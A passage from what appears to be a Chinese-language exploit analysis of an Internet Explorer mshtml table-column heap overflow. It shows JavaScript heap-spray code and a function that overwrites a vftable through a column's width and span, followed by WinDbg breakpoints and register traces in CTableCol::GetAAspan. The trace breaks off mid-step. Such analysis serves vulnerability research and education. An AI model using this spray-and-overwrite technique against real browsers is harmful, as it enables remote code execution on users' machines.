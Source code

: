 	    while (shellcode.length < 100000)
		shellcode = shellcode + shellcode;
	    var onemeg = shellcode.substr(0, 64*1024/2);
	    for (i=0; i<14; i++) {
		onemeg += shellcode.substr(0, 64*1024/2);
	    }

	    onemeg += shellcode.substr(0, (64*1024/2)-(38/2));
	    var spray = new Array();

	    for (i=0; i<400; i++) {
		spray[i] = onemeg.substr(0, onemeg.length);
	    }
	}
	function smash_vtable(){
        	var obj_col_0 = document.getElementById("132");
			obj_col_0.width = "1178993";                    // smash the vftable 0x07070024
        	obj_col_0.span = "44";                      // the amount to overwrite
	}

这里中间是用了大量的填充数据。我们接着调试，先把前面的断点全部取消了，然后在最初的mshtml!CTableLayout::CalculateMinMax下个断点，运行。然后在
mshtml!CTableCol::GetAAspan和mshtml!CTableCol::GetAAspan下断点，第一个是为了查看获取的span，第二个就是漏洞点也是复制的地方。
在mshtml!CTableCol::GetAAspan函数中我们可以看到获取的span就是最后的eax为0x2c=44，是我们之前要求输入的值。

	0:012> bp mshtml!CTableCol::GetAAspan
	0:012> bp mshtml!CTableColCalc::AdjustForCol
	0:012> g
	Breakpoint 0 hit
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8
	eip=3db98b1d esp=0290c6e4 ebp=0290c78c iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040246
	mshtml!CTableCol::GetAAspan:
	3db98b1d 8bff            mov     edi,edi
	0:012> p
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8
	eip=3db98b1f esp=0290c6e4 ebp=0290c78c iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040246
	mshtml!CTableCol::GetAAspan+0x2:
	3db98b1f 55              push    ebp
	0:012> p
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8
	eip=3db98b20 esp=0290c6e0 ebp=0290c78c iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040246
	mshtml!CTableCol::GetAAspan+0x3:
	3db98b20 8bec            mov     ebp,esp
	0:012> p
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8
	eip=3db98b22 esp=0290c6e0 ebp=0290c6e0 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040246
	mshtml!CTableCol::GetAAspan+0x5:
	3db98b22 51              push    ecx
	0:012> p
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8
	eip=3db98b23 esp=0290c6dc ebp=0290c6e0 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040246
	mshtml!CTableCol::GetAAspan+0x6:
	3db98b23 56              push    esi
	0:012> p
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8
	eip=3db98b24 esp=0290c6d8 ebp=0290c6e0 iopl=0         nv up ei pl zr na pe nc
	cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040246
	mshtml!CTableCol::GetAAspan+0x7:
	3db98b24 ff700c          push    dword ptr [eax+0Ch]  ds:0023:04830bb4=04918f80
	0:012> p
	eax=04830ba8 ebx=04773188 ecx=0000002b edx=00000009 esi=04f4ba14 edi=04830ba8